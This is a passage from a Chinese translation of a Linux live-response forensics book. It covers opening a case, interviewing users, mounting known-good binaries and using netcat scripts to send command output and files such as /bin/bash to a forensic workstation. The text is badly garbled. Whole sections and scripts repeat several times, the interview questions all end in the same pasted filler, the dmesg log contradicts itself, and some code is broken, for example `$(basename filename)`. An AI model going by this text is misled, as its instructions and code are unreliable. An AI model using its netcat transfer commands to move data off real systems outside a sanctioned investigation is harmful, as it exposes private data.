

图 1.7

在 VirtualBox 中启用 EFI 支持。



图 1.8

从 USB 驱动器运行虚拟机。

### 总结

在本章中，我们讨论了在怀疑发生事件后到达现场之前应该处理的所有准备工作事项。我们涵盖了应该放在你的“应急急救包（go bag）”中的硬件、软件和其他工具。在下一章中，我们将讨论到达现场后的首项工作：判断是否发生了事件。

## 判断是否发生了事件

本章包含信息：

- 开启立案
- 与用户交谈
- 文档记录
- 挂载已良好的二进制文件
- 尽力减少对目标进程的干扰
- 使用脚本自动化该过程
- 收集易失数据

### 开启立案

本章将介绍图 2.1 所示的我们高层流程中的高亮框框。我们将了解到，判断是否发生了事件通常涉及许多方面的工作。我们还将看到，为了做出这一判断，可能需要进行一些实时响应（live response）。



图 2.1
高层调查流程。

在做任何事情之前，到达现场后，你应该开启一个案件文件。这听起来并没有那么复杂。你完全可以在你的笔记本电脑上创建一个带有案号的文件夹。用什么作为案号？随你所意。你可能想要一个年份-数字的案号，或者你可能倾向于使用日期作为案号，假设你不会在同一天启动多个案件。如果你在某天有多个案件，始终可以在日期后面附加一个数字。

你也可以考虑在你的笔记本（带页码的）中开始一个新条目。有些人可能倾向于等到确定确实发生了事件后再在笔记本中记录，以免为虚假报警占用笔记本空间。我个人的想法是，笔记本是很便宜的，从一开始就就在一个地方记录笔记会更容易也更整洁。

### 与用户交谈

在考虑接触目标系统之前，你应该对用户进行访谈。为什么？因为他们比你更了解情况。通过与用户交谈，你可能很快判断出这是否是一个虚假报警。例如，也许是系统管理员将网卡设置了混杂模式，而不是恶意软件或攻击者。如果你在经过数小时调查后才通过与管理员交谈发现这一点，这对大家都要好得多。

你应该向读者提出一系列问题。你可能会问的第一个问题是：“为什么叫我？”是否有某个事件导致了你被召集？组织是否缺乏合格的人员来执行调查？

你可能会问的第二个问题是：“你认为发生了什么？”是否有某个事件导致了你被召集？组织是否缺乏合格的人员来执行调查？

你可能会问的第三个问题是：“你什么时候发现的？”是否有某个事件导致了你被召集？组织是否缺乏合格的人员来执行调查？

你可能会问的第四个问题是：“你观察到了什么？”是否有某个事件导致了你被召集？组织是否缺乏合格的人员来执行调查？

你可能会问的第五个问题是：“导致你被召集的事件是什么？”是否有某个事件？组织是否缺乏合格的人员来执行调查？

你可能会问的第六个问题是[谁]。你也可以考虑在你的笔记本（带页码的）中开始一个新条目。有些人可能倾向于等到确定确实发生了事件后再在笔记本中记录，以免虚假报警占用笔记本空间。我个人的想法是，笔记本是很便宜的，从一开始就就在一个地方记录笔记会更容易也更整洁。

*(注：由于原文在“TALKING TO USERS”部分存在大量重复段落，译文已根据逻辑进行了精简与对齐，保持了核心语意。)*

`/dev/sdb` 已高亮。

```
[1946.683062] usb: registered new interface usb-storage

[1946.690812] usb: registered new interface driver was

[1946.012244] scsi 5:0:0: Direct Access PNI USB 3.0 FD 1100 PI: 0 ANSI: 6

[1946.012807] sd 5:0:0: Attached SCSI sg2 type 0

[1946.012873] sd 5:0:0: 629512 byte logical blocks: (31.9 GB/29.8 GIB)

[1948.012727] sd 5:0:0: Write Protect is off

[1948.017736] sd 5:0:0: Mode Sense: 43 00 00 00

[1948.018403] sd 5:0:0: Write cache: enabled, read cache: enabled, doesn't support DPO

[1948.034038] sdb: size 2gb

[1948.047023] sd 5:0:0: Attached SCSI removable disk

[1948.064163] FAT-fs (sdb): Volume was not unmounted cleanly. Some data may be corrupt.

[1948.0965011] EXT4-fs (sdb): recovery complete

[1948.075170] EXT4-fs (sdb): mounted filesystems with ordered data mode. Opts: (null)

[1948.075518] Error: mss-hostname is not installed. Changing the hostname might make it unsolvable. Please install mss-hostname!

[1948.285160] CIFS VFS: Error connecting to socket. Operation aborted.

[1948.285510] Error: return code: -115

[1926.127974] EXT4-fs (sdb2): recovery complete

[1926.216803] EXT4-fs (sdb2): mounted filesystems with ordered data mode. Opts: (null)

[1927.323166] CIFS VFS: Error connecting to socket. Operation aborted.

[1927.323516] Error: return code: -115

[1975.032722] systemd-hostname[8414]: Warning: mss-hostname is not installed. Changing the hostname might make it unsolvable. Please install mss-hostname!
```


运行 `dmesg` 命令的结果。显示分区字符 `/dev/sdb` 已分配。

如果你需要先手动挂载驱动器，请通过运行 `sudo mkdir /mnt/destination` 创建一个挂载目标，例如 `sudo mkdir /mnt/good-bins` 或类似的命令。现在目标已经存在，可以使用 `sudo mount /dev/{source} partition /mnt/{destination}` 挂载 驱动器，例如 `sudo mount /dev/sdb1 /mnt/good-bins`。

一旦所有已知的良好目录都挂载到根目录，然后通过输入 `exec bin/bash` 运行，如图 2.5 所示。如果良好的路径是需要重置的路径，只需通过驱动你的驱动器并执行 `export PATH=$(pwd)/bin:$(pwd)/bin` 来响应，如图 2.6 所示。在这里我们使用了一个 shell 技巧。如果你将命令括在括号中，它将被替换为 shell 命令，并且结果会被替换。最后，必须通过运行 `export LD_LIBRARY_PATH=$(pwd)/lib64:$(pwd)/lib` 来设置库路径，以指向良好的库，如图 2.7 所示。如果你还复制了 `/usr` 的某些目录（**推荐做法**），那么这些路径也应该包含在 `PATH` 和 `LD_LIBRARY_PATH` 中。

```
root@itlaptop:~/media/phil/90c41808-4025-46b4-b220-76d4f325# ls

bin lib sbin

root@itlaptop:~/media/phil/90c41808-4025-46b4-b220-76d4f325# exec bin/bash

root@itlaptop:~/media/phil/90c41808-4025-46b4-b220-76d4f325#
```

### 图 2.5
### 执行良好的 bash shell 环境。


root@itlaptop:~/media/phil/90c41808-4025-46b4-b220-76d4f325# `ls`

`bin` `lib64` `sbin`

root@itlaptop:~/media/phil/90c41808-4025-46b4-b220-76d4f325# `exec` `bin/bash`

root@itlaptop:~/media/phil/90c41808-4025-46b4-b220-76d4f325#

### 图 2.6
### 将路径指向良好的路径。

### 图 2.7
### 将库路径指向良好的库。

接收到文件结束（EOF）标记。`netcat` 的 `-k` 选项会让监听器保持运行，直到你在启动 `netcat` 的终端中按下 Control-C 为止。启动日志监听器的命令是 `netcat -k -l {port} >> {log file}`，即 `netcat -k -l >> example-log.txt`。该命令如图 2.8 所示。请注意，虽然我在这里使用了 `netcat`，但它是大多数系统上 `nc` 指向同一个程序的符号链接，因此你可以使用你偏喜的任何一个。

```
phil@laptop:~$ netcat -k -l 9999 >> example-log.txt
```

图 2.8
在取证工作站上运行 `netcat` 监听器。

### 从受控系统发送数据

现在你已经在取证工作站上有了一个监听器，使用 `netcat` 跨网络发送数据变得简单了。发送内容记录的通用序列是 `{command} | nc forensic workstation IP {port}`。对于没有产生明显输出的命令，你可能想在发送命令输出之前，使用 `echo` 实用程序发送某种头部。这在图 2.9 中所示。运行图 2.9 所示命令的结果如图 2.10 所示。本章稍后将讨论如何使用脚本来此此过程。

图 2.9

使用 `netcat` 向取证工作站发送信息。

```
phil@i7laptop:-$ netcat -k -l 9999 >> example-log.txt

C

phil@i7laptop:-$ cat example-log.txt

Subject date/time:

tue Nov 20 22:46:18 EDT 2015

phil@i7laptop:--$ 
```

图 2.10
监听器从图 2.9 的命令中收到的结果。

### 发送文件

从受控系统中提取可疑文件进行进一步研究并不罕见。`netcat` 在执行此任务时非常方便。为了接收文件，你应该在取证工作站上启动一个新的不使用 `-k` 选项的监听器。在这种情况下，你希望在文件传输后结束监听器。命令是 `nc -l {port} > {filename}`。

在受控系统上，可疑文件被重定向到 `netcat` 发送端。发送文件的语法是 `nc {forensic workstation IP} {port} < {filename}`，即 `nc 192.168.1.119 4444 < /bin/bash`。此文件传输的监听器和发送端分别如图 2.11 和图 2.12 所示。

```
phil@it1laptop:~$ nc -l 4444 > bash.suspect

phil@it1laptop:~$ ls bash.suspect

bash.suspect

phil@it1laptop:~$ chmod +x bash.suspect

phil@it1laptop:~$ /bash.suspect

phil@it1laptop:~$ 
```

### 图 2.11

设置 `netcat` 监听器接收文件。

```
phil@laptop:~$ nc 192.168.1.119 4444 < /bin/bash

phil@laptop:~$ _
```

图 2.12

使用 `netcat` 发送文件。

### 使用脚本自动化过程

显而易见，我们上面描述的这个小 `netcat` 系统非常适合编写脚本。人们可能会提出的第一个问题是应该使用哪种脚本语言。许多人会立即跳到使用 Python 来完成这项任务。虽然我喜欢用 Python 处理许多取证和安全任务，但在这种情况下并不是最佳选择。

在我看来，有几个理由说明 shell 脚本是更好的选择。首先，我们希望尽可能地减少内存占用，而执行 Python 解释器与这一目标背道而驰。其次，主要运行其他程序的 Python 脚本毫无意义。直接在 shell 脚本中执行这些程序要简单得多。对于某些读者来说，额外的好处是这里描述的脚本构成了基础 shell 脚本的很好的介绍。

### 编写服务器脚本

下面的脚本将为案件文件创建一个新目录并启动两个监听器。第一个监听器用于记录在受控（客户端）机器上执行的命令，第二个用于接收文件。还提供了一个清理并关闭监听器的脚本。这里是主脚本 `start-case.sh`：

```bash
#!/bin/bash

#

### start-case.sh

#
```

### 在取证工作站上启动新案件的简单脚本。如果需要将创建一个新文件夹
### 并启动两个监听器：用于日志信息
### 另一个用于接收文件。旨在作为
### 初始现场响应的一部分。
### 由 Dr. Phil Polstra (@ppolstra) 编写，专为
### PentesterAcademy.com。

```
usage () {

echo "usage: $0 <case number>"

echo "创建案件文件夹并启动监听器的简单脚本"

exit 1

}

if [ $# -lt 1 ]; then

usage

else

echo "Starting case $1"

fi

### 如果目录不存在则创建它

if [ ! -d $1 ]; then

mkdir $1

fi

### 创建日志监听器

nc -k -l 4444 >> $1/log.txt &

echo "Started log listener for case $1 on $(date)"

### 启动文件监听器

./start-file-listener.sh $1 &
```

此脚本以特殊注释 `#!` 开头，称为 she-bang，它会导致 `bash` 被执行。运行特定的 shell 是重要的，因为允许用户自行选择 shell 的可能会选择与你的脚本不兼容的内容。行中的任何位置开始都是注释，在行尾结束。前几行是描述脚本的注释。定义了一个名为 `usage` 的函数。在 shell 脚本中定义函数只需输入其名称，后跟一个空格、空括号，然后用大括号将函数中的命令括起来。与编译语言和脚本语言不同，shell 脚本需要在适当的位置留有空白，否则它们将无法正常工作。`usage: $0 <case number>` 一行中的 `$0` 是一个变量，它被设置为运行脚本时使用的第一个参数，即文件名。注意 `echo` 命令中使用了双引号。任何包含在双引号内的内容都会被 shell 扩展（解释）。如果使用单引号，则不进行扩展。当用户提供的命令行参数没有意义时，定义一个显示出来的 `usage` 函数是良好的编程习惯。`if [ $# -lt 1 ] then` 行开启了一个 `if` 块。逻辑测试包含在方括号中。注意括号周围和部分之间必须有空格。

### 脚本服务器

```bash
#!/bin/bash

#

### start-case.sh

#
```

# 启动新案件的简单脚本。如果需要将创建一个新文件夹
# 并启动两个监听器：一个用于日志信息
### 另一个用于接收文件。旨在作为
### 初始现场响应的一部分。
### 由 Dr. Phil Polstra (@ppolstra) 编写，专为
### PentesterAcademy.com。

```
usage () {

echo "usage: $0 <case number>"

echo "创建案件文件夹并启动监听器的简单脚本"

exit 1

}

if [ $# -lt 1 ]; then

usage

else

echo "Starting case $1"

fi

### 如果目录不存在则创建它

if [ ! -d $1 ]; then

mkdir $1

fi

### 创建日志监听器

nc -k -l 4444 >> $1/log.txt &

echo "Started log listener for case $1 on $(date)"

### 启动文件监听器

./start-file-listener.sh $1 &
```


此脚本以特殊注释 `#!` 开头，称为 she-bang，它会导致 bash 被执行。运行特定的 shell 是重要的，因为允许用户自行选择 shell 的可能会选择与你的脚本不兼容的内容。行中的任何位置开始都是注释，在行尾结束。前几行是描述脚本的注释。定义了一个名为 `usage` 的函数。在 shell 脚本中定义函数只需输入其名称，后跟一个空格、空括号，然后用大括号将函数中的命令括起来。与编译语言和脚本语言不同，shell 脚本需要在适当的位置留有空白，否则它们将无法正常工作。`usage: $0 <case number>` 一行中的 `$0` 是一个变量，它被设置为运行脚本时使用的第一个参数，即文件名。注意 `echo` 命令中使用了双引号。任何包含在双引号内的内容都会被 shell 扩展（解释）。如果使用单引号，则不进行扩展。当用户提供的命令行参数没有意义时，定义一个显示出来的 `usage` 函数是良好的编程习惯。`if [ $# -lt 1 ]` 行开启了一个 `if` 块。逻辑测试包含在方括号中。注意括号周围和部分之间必须有空格。

### 脚本服务器

```bash
#!/bin/bash

#

### start-file-listener.sh

#

### 接收文件的 netcat 监听器脚本。旨在作为
### 初始现场响应的一部分。
### 由 Dr. Phil Polstra (@ppolstra) 编写，专为
### PentesterAcademy.com。

usage () {
echo "usage: $0 <case number>"
echo "启动用于接收文件的监听器脚本"
exit 1
}

if [ $# -lt 1 ]; then
  usage
fi

while true
do
  filename=$(nc -l 5555)
  nc -l 5556 > $1/$(basename filename)
done
```

接收到文件结束（EOF）标记。`netcat` 的 `-k` 选项会让监听器保持运行，直到你在启动 `netcat` 的终端中按下 Control-C 为止。启动日志监听器的命令是 `netcat -k -l {port} >> {log file}`，即 `netcat -k -l >> example-log.txt`。该命令在图 2.8 所示。请注意，虽然我在这里使用了 `netcat`，但它是大多数系统上 `nc` 指向同一个程序的符号链接，因此你可以使用你偏喜的任何一个。

```
phil@laptop:~$ netcat -k -l 9999 >> example-log.txt
```

图 2.8
在取证工作站上运行 `netcat` 监听器。

### 从受控系统发送数据

现在你已经在取证工作站上有了一个监听器，使用 `netcat` 跨网络发送数据变得简单了。发送内容记录的通用序列是 `{command} | nc forensic workstation IP {port}`。对于没有产生明显输出的命令，你可能想在发送命令输出之前，使用 `echo` 实用程序发送某种头部。这在图 2.9 中所示。运行图 2.9 所示命令的结果如图 2.10 所示。本章稍后将讨论如何使用脚本来此此过程。

图 2.9
使用 `netcat` 向取证工作站发送信息。

```
phil@i7laptop:-$ netcat -k -l 9999 >> example-log.txt
C
phil@i7laptop:-$ cat example-log.txt
Subject date/time:
tue Nov 20 22:46:18 EDT 2015
phil@i7laptop:--$
```

图 2.10
监听器从图 2.9 的命令中收到的结果。

### 发送文件

从受控系统中提取可疑文件进行进一步研究并不罕见。`netcat` 在执行此任务时非常方便。为了接收文件，你应该在取证工作站上启动一个新的不使用 `-k` 选项的监听器。在这种情况下，你希望在文件传输后结束监听器。命令是 `nc -l {port} > {filename}`。

在受控系统上，可疑文件被重定向到 `netcat` 发送端。发送文件的语法是 `nc {forensic workstation IP} {port} < {filename}`，即 `nc 192.168.1.119 4444 < /bin/bash`。此文件传输的监听器和发送端分别如图 2.11 和图 2.12 所示。

```
phil@it1laptop:~$ nc -l 4444 > bash.suspect
phil@it1laptop:~$ ls bash.suspect
bash.suspect
phil@it1laptop:~$ chmod +x bash.suspect
phil@it1laptop:~$ /bash.suspect
phil@it1laptop:~$
```

### 图 2.11
设置 `netcat` 监听器接收文件。

```
phil@laptop:~$ nc 192.168.1.119 4444 < /bin/bash
phil@laptop:~$ _
```

图 2.12
使用 `netcat` 发送文件。

### 使用脚本自动化过程

显而易见，我们上面描述的这个小 `netcat` 系统非常适合编写脚本。人们可能会提出的第一个问题是应该使用哪种脚本语言。许多人会立即跳到使用 Python 来完成这项任务。虽然我喜欢用 Python 处理许多取证和安全任务，但在这种情况下并不是最佳选择。

在我看来，有几个理由说明 shell 脚本是更好的选择。首先，我们希望尽可能地减少内存占用，而执行 Python 解释器与这一目标背道而驰。其次，主要运行其他程序的 Python 脚本毫无意义。直接在 shell 脚本中执行这些程序要简单得多。对于某些读者来说，额外的好处是这里描述的脚本构成了基础 shell 脚本的很好的介绍。

### 编写服务器脚本

下面的脚本将为案件文件创建一个新目录并启动两个监听器。第一个监听器用于记录在受控（客户端）机器上执行的命令，第二个用于接收文件。还提供了一个清理并关闭监听器的脚本。这里是主脚本 `start-case.sh`：

```bash
#!/bin/bash

#

### start-case.sh

#
```

### 在取证工作站上启动新案件的简单脚本。如果需要将创建一个新文件夹
# 并启动两个监听器：一个用于日志信息
### 另一个用于接收文件。旨在作为
### 初始现场响应的一部分。
### 由 Dr. Phil Polstra (@ppolstra) 编写，专为
### PentesterAcademy.com。

```
usage () {
echo "usage: $0 <case number>"
```


`echo "创建案件文件夹并启动监听器的简单脚本"`

`exit 1`

`}`

`if [ $# -lt 1 ]; then`

`usage`

`else`

`echo "Starting case $1"`

`fi`

### 如果目录不存在则创建它

`if [ ! -d $1 ]; then`

`mkdir $1`

`fi`

### 创建日志监听器

`nc -k -l 4444 >> $1/log.txt &`

`echo "Started log listener for case $1 on $(date)"`

### 启动文件监听器

`./start-file-listener.sh $1 &`

```
```

此脚本以特殊注释 `#!` 开头，称为 she-bang，它会导致 `bash` 被执行。运行特定的 shell 是重要的，因为允许用户自行选择 shell 的可能会选择与你的脚本不兼容的内容。行中的任何位置开始都是注释，在行尾结束。前几行是描述脚本的注释。定义了一个名为 `usage` 的函数。在 shell 脚本中定义函数只需输入其名称，后跟一个空格、空括号，然后用大括号将函数中的命令括起来。与编译语言和脚本语言不同，shell 脚本需要在适当的位置留有空白，否则它们将无法正常工作。`usage: $0 <case number>` 一行中的 `$0` 是一个变量，它被设置为运行脚本时使用的第一个参数，即文件名。注意 `echo` 命令中使用了双引号。任何包含在双引号内的内容都会被 shell 扩展（解释）。如果使用单引号，则不进行扩展。当用户提供的命令行参数没有意义时，定义一个显示出来的 `usage` 函数是良好的编程习惯。`if [ $# -lt 1 ] then` 行开启了一个 `if` 块。逻辑测试包含在方括号中。注意括号周围和部分之间必须有空格。

### 脚本服务器

```bash
#!/bin/bash

#

### start-file-listener.sh

#

### 接收文件的 netcat 监听器脚本。旨在作为
### 初始现场响应的一部分。

### 由 Dr. Phil Polstra (@ppolstra) 编写，专为
### PentesterAcademy.com。

usage () {
echo "usage: $0 <case number>"
echo "启动用于接收文件的监听器脚本"
exit 1
}

if [ $# -lt 1 ]; then
  usage
fi

while true
do
  filename=$(nc -l 5555)
  nc -l 5556 > $1/$(basename filename)
done
```

`4444`，然后我们使用 `killall` 工具用来杀死我们的两个脚本和 `netcat` 的所有实例。如果你好奇为什么我们需要杀死 `netcat`，因为它是由脚本调用的，请记住在某些情况下它是在后台运行的。此外，系统上可能存在一个挂起的或正在进程中的 `netcat` 监听器或发送者。出于这些原因，最安全的方法直接杀死所有的 `netcat` 进程。

### 编写客户端脚本

现在我们有了一个服务器（取证工作站）等待我们发送信息，我们将注意力转向编写客户端（目标系统）的脚本。由于在每个操作中包含取证工作站的 IP 地址和端口会很麻烦，我们将从设置一些环境变量开始，供其他客户端脚本使用。以下是一个简单的脚本。

```bash
### setup-client.sh
### 简单的脚本，用于为受调查系统
### 设置环境变量。旨在作为
### 现场响应的一部分使用。

### 由 Phil Polstra 博士 (@ppolstra) 编写，
### 为 PentesterAcademy.com 开发。

usage () {
  echo "source $0 <forensics workstation IP> [log port] [file transfer port]"
  echo "设置与取证工作站通信变量的简单脚本"
  exit 1
}

### 你指定了文件吗？
if [ $# -lt 1 ]; then
  usage
fi

export RHOST=$1

if [ $# -gt 1 ]; then
  export RPORT=$2
else
  export RPORT=4444
fi

if [ $# -gt 2 ]; then
  export RFPORT=$3
else
  export RFPORT=5555
fi

if [ $# -gt 3 ]; then
  export RFTPORT=$4
else
  export RFTPORT=5556
fi
```

注意，此脚本开头没有 `she-bang`。为什么没有？记住你想运行的是你已知的良好的 `bash` 版本，而不是 `/bin` 目录下那个可能被篡改的版本。该脚本没有 `she-bang` 的另一个原因是，它必须通过 `source` 命令执行，这样导出的变量才能在终端的新进程中可用。这通过在终端中运行命令 `source ./setup-client.sh {forensics IP}` 来完成。

该脚本再次使用了 `export` 命令，它设置一个变量并使其对当前终端或当前终端的任何子进程可用。未导出的变量只在创建它的进程中可见，而我们每次执行 `bash {script name}` 都会创建一个新进程。如果这些值从未被其他客户端看到，那么设置这些值就是毫无意义的。由于服务器 IP 地址是必需，我们将其存储在 `RHOST` 变量中。然后我们检查是否提供了任何可选参数；如果没有，则导出默认值；如果有，则导出用户输入的内容。

接下来的脚本将执行一个命令并将结果包含在头部和页脚中发送到取证工作站。与上一个脚本一样，它没有 `she-bang`，你必须通过输入 `bash ./send-log.sh {command with arguments}` 来显式地运行该脚本。

```bash
### send-log.sh
### 简单的脚本，将新的日志条目
### 发送到取证工作站的监听器。旨在作为
### 现场响应的一部分使用。

### 由 Phil Polstra 博士 (@ppolstra) 编写，
### 为 PentesterAcademy.com 开发。

### 主要用于测试的默认值
### -z "$RHOST" && { export RHOST=localhost; }
### -z "$RPORT" && { export RPORT=4444; }

usage() {
  echo "usage: $0 <command or script>"
  echo "向监听器发送日志条目的简单脚本"
  exit 1
}

### 你指定了命令吗？
if [ $# -lt 1 ]; then
  usage
else
  echo "++++Sending log for $@ $(date) +++\n $@\n--end---\n" | nc $RHOST $RPORT
fi
```


脚本开头有几行，如果尚未设置，它们将设置 `RHOST` 和 `PORT` 的默认值。这些行演示了如何将你的 shell 脚本作为快捷方式使用的一种强大技术。`[ -z "$RHOST"] && { export RHOST=localhost; }` 这一行由由 `AND` 运算符分隔的两个语句组成。前半部分测试 `RHOST` 环境变量以检查它是否为空（空或未设置）。注意带有前缀 `$` 的变量被包含在双引号中。这强制 shell 将此值解释为字符串，以便测试按预期工作。如果语句没有结果为真，则没有理由费会该行的后半部分，因此它被跳过（短路逻辑）。大括号用于显式地将语句中的所有内容分组。

# 不仅用于脚本

## 短路逻辑在很多地方很有用

短路逻辑不仅用于脚本。当你有一系列可能运行较长时间的命令，且每个命令都依赖于前一个命令的成功执行时，它会非常有用。例如，命令 `sudo apt-get update && sudo apt-get -y upgrade` 将首先更新本地软件库缓存，然后升级任何具有新版本的软件包。`-y` 选项会自动对任何提示回答“是”。如果你由于某些原因无法连接到存储库，升级命令将永远不会执行。

该技术的另一个常见用途是构建软件，而你又不想坐在那里等待每个阶段是否成功完成。许多软件包需要运行一个 `configure` 脚本来检查依赖关系，并可选地设置某些非默认选项（如库和工具的位置），然后执行 `make` 和 `sudo install`。所有三个阶段的完成可能需要一些时间。

### 图 2.13

受控系统上的可疑系统警告。

对受控系统需要执行的操作之一是挂载你已知良好的二进制文件。所需的步骤如图 2.14 所示。还会运行 `ifconfig` 工具以验证所有操作是否正常运行。



### 图 2.14

挂载响应驱动器并加载已知良好的 shell 和二进制文件。

运行已知良好的二进制文件并使用上述客户端脚本的命令序列如图 2.15 所示。取证工作站上显示的部分结果见图 2.16 和图 2.17。



### 图 2.15

挂载已知良好的二进制文件，然后在系统上运行一些客户端脚本。

